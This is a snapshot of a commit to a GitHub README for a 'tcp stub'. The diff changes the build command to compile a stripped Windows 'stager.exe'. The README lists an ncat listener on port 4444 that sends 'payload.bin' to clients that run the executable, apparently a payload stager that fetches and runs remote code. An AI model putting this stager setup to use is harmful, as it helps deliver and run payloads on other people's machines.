

Before and after one commit to Connduit/267k, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -8,7 +8,7 @@ tcp stub
 
 ### Commands
 - g++ stub.cpp -o stub
-- x86_64-w64-mingw32-g++ stub_win.cpp -o stub_win.exe -lws2_32
+- x86_64-w64-mingw32-gcc -s -Wl,--entry=main -Wl,--strip-all stager.c -o stager.exe
 - server: ncat -lvp 4444 --send-only < payload.bin
 - client: run executable
 
```
